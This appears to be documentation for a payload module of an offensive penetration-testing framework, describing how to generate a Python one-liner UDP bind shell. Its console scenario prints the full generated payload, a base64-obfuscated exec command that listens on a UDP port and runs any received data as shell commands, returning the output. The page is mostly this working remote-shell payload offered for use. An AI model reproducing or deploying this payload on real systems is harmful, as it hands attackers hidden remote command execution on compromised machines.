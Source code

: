 ## Description

Module generates payload that creates interactive udp bind shell by using python one-liner. 

## Verification Steps

  1. Start `./thgconsole.py`
  2. Do: `use payloads/cmd/python_bind_udp`
  3. Do: `set rport 4321`
  4. Do: `run`
  5. Module generates python udp bind shell payload

## Scenarios

```
rsf > use payloads/cmd/python_bind_udp
rsf (Python Bind UDP One-Liner) > set rport 4321
[+] rport => 4321
rsf (Python Bind UDP One-Liner) > run
[*] Running module...
[*] Generating payload
python -c "exec('ZnJvbSBzdWJwcm9jZXNzIGltcG9ydCBQb3BlbixQSVBFCmZyb20gc29ja2V0IGltcG9ydCBzb2NrZXQsIEFGX0lORVQsIFNPQ0tfREdSQU0Kcz1zb2NrZXQoQUZfSU5FVCxTT0NLX0RHUkFNKQpzLmJpbmQoKCcwLjAuMC4wJyw0MzIxKSkKd2hpbGUgMToKCWRhdGEsYWRkcj1zLnJlY3Zmcm9tKDEwMjQpCglvdXQ9UG9wZW4oZGF0YSxzaGVsbD1UcnVlLHN0ZG91dD1QSVBFLHN0ZGVycj1QSVBFKS5jb21tdW5pY2F0ZSgpCglzLnNlbmR0bygnJy5qb2luKFtvdXRbMF0sb3V0WzFdXSksYWRkcikK'.decode('base64'))"
```

